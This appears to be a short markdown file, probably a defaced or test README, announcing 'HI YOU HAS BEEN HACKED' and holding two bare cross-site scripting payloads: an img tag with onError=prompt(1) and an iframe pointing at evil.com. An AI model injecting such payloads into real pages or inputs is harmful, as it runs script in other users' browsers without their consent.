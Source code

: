 # HI YOU HAS BEEN HACKED

## "><img src=x onError=prompt(1)>

### 

"><iframe src="https://evil.com" height="100" width="100" frameborder="0"></iframe>


